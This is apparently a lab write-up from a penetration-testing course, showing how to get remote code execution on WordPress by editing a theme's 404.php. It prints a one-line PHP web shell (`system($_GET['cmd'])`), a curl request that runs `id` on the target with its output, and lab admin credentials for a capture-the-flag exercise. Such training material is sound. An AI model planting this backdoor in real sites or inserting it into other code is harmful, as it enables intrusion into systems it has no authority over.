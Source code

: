 #### Theme Editor

![](Pasted%20image%2020250331152516.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

#### Selecting Theme

![](Pasted%20image%2020250331152523.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

#### Twenty Seventeen Theme - 404.php

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

#### RCE

```shell
gitblanc@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

>[!Example]
>The Academy's exercise for this section. Use the credentials for the admin user `admin:sunshine1` and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.

![](Pasted%20image%2020250331152832.png)

Click on Theme Editor:
